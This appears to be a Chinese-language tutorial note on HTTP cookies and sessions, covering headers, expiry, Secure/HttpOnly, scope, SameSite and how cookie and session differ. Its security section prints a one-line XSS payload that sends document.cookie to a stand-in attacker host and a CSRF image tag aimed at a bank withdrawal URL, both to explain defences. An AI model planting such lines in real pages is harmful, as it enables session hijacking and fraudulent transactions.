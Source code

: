 因为HTTP是无状态的，所以需要一些方式实现保存状态，比如服务端的状态就是返回的状态码，而客户端的状态就用cookie和session，用来记录用户状态：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

## Cookie

- Cookie是由服务端生成的，发送给客户端
- Cookie总是保存在客户端中，按在客户端中的存储位置，可分为：

1. 会话期Cookie`Session cookies`
   保存在客户端内存，浏览器关闭后就自动消失了（会话期内有效），

```
Set-Cookie: yummy_cookie=choco
```

1. 持久性Cookie`Permanent cookies`
   保存在客户端硬盘，除非用户手工清理或到了过期时间，硬盘Cookie不会被删除
   持久性Cookie可以指定一个特定的过期时间（Expires）或有效期（Max-Age），以秒为单位（设为0是命令浏览器删除该Cookie）
   注意，这个时间是客户端的时间

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

注意，头部的关键字首字母为`大写`

## Cookie的有效期

- Expires（过期时间）
  Cookie到什么时候过期，是一个时间
- Max-Age（有效期）（优先级高）
  Cookie还有多少秒过期

如果同时设置`Expires`和`Max-Age`，那么以后者为标准

## 创建Cookie

1. 服务器向客户端发送response，定义Set-Cookie头，服务器通过该头部告知客户端保存Cookie信息
   注意

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

1. 如果客户端没有禁用cookie的话，就会保存cookie
2. 之后每次客户端向服务端发出的请求都会带上cookie

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

## Cookie的Secure 和HttpOnly 标记

- Secure
  带`Secure`的cookie只会在`https`请求的时候放在头里发送给服务端
  注意，因为cookie采用的是明文传输，`Secure`也保证不了它的安全性，可以对cookie再进行一次加密
- HttpOnly
  表示此cookie只应该发送给服务端，而不能在客户端通过js的`Document.cookie`访问（防止`跨域脚本XSS攻击`）

```js
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```



## Cookie的作用域

`Domain`和`Path`标识定义了Cookie的作用域：即Cookie应该发送给哪些URL。

- Domain
  该标识指定了哪些主机`host`可以接受Cookie，不指定默认为`document.location.host`（**不包含子域名**），指定则**包含子域名**：`Domain=github.com`意味着`*.github.com`也生效
- Path
  该标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）。以字符 `%x2F` ("/") 作为路径分隔符，**子路径也会被匹配**：`Path=/docs`意味着`/docs/*`也生效

## SameSite Cookies

SameSite Cookie允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）

### 第三方Cookie

每个Cookie都会有与之关联的域（Domain）

- 第一方Cookie`first-party cookie`
  Cookie的域和页面的域**相同**
- 第三方Cookie`third-party cookie`
  Cookie的域和页面的域**不相同**

第三方Cookie主要用于***广告和网络追踪***，由于图片之类的可以使用其它网站的图片（跨域），但是如此第一方的Cookie也只会发送给设置它们的服务器，所以需要第三方的组件发送cookie到第三方服务器（大多数浏览器默认都允许第三方Cookie，可以通过浏览器扩展阻止）

## Cookie的缺陷

- Cookie会被附加在每个HTTP请求中，所以无形中增加了流量。
- Cookie的大小限制在4KB左右。对于复杂的存储需求来说是不够用的
- Cookie在HTTP请求中是明文传递的，所以安全性成问题。（除非用HTTPS）

### Cookie安全问题

1. 会话劫持和XSS

```js
(new Image()).src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
```

应对方式：`Secure`，加密cookie

1. 跨站请求伪造（CSRF）

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

应对方式：

- 对用户输入进行过滤来阻止XSS
- 任何敏感操作都需要确认
- 用于敏感信息的Cookie只能拥有较短的生命周期
- 更多方法可以查看[OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)

## Cookie被客户端禁用了怎么办？

1. 请求头强制指定Cookie（绕过浏览器限制）
2. URL query代替
3. 请求body
   原则就是在HTTP上做手脚，头或体（请求的本质）

## Session

Session代表服务器与浏览器的一次会话过程，这个过程是连续的，也可以时断时续的。为了避免Cookie的种种限制和缺陷，利用Cookie的特性，在服务端也可以实现用户状态的保存

### Session创建的时间

一个常见的误解是以为session在有客户端访问时就被创建，然而事实是直到某server端程序调用 HttpServletRequest.getSession(true)这样的语句时才被创建

### Session删除的时间

1. Session超时：超时指的是连续一定时间服务器没有收到该Session所对应客户端的请求，并且这个时间超过了服务器设置的Session超时的最大时间。
2. 程序调用HttpSession.invalidate()
3. 服务器关闭或服务停止

注意：session会因为浏览器的关闭而删除

## Session和Cookie的关系

因为Session有Session ID的缘故，服务端通过Cookie指定一个唯一的用户标识（一般不指定过期时间，也就是使用的是会话期Cookie），然后在服务端以Session ID为索引，存储任意的用户信息。所以Cookie只是Session实现Session ID的一种方式而已，也可以用其它的方式。

## Cookie和Session的区别

### 作用域

因为Session使用的Cookie没有设置Domain字段和Path，所以不支持子域名和子目录

### 安全性

由于Session保存在服务器，只把Session ID暴露在外面，所以安全性要好于Cookie

### 保存位置（有效期）

Session保存在服务器的内存、硬盘（持久化）、数据库都可以
Cookie保存在客户端的内存或者硬盘

### 服务器压力

Session是保管在服务器端的，每个用户都会产生一个Session。假如并发访问的用户十分多，会产生十分多的Session，耗费大量的内存。而Cookie保管在客户端，不占用服务器资源。假如并发阅读的用户十分多，Cookie是很好的选择。

## 参考

[HTTP cookies - HTTP | MDN](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
[HTTP State Management Mechanism](https://www.ietf.org/rfc/rfc6265.txt)
[Cookie和Session的作用和工作原理](https://blog.csdn.net/guoweimelon/article/details/50886092)
[深入理解HTTP Session](https://blog.csdn.net/ystyaoshengting/article/details/82690470)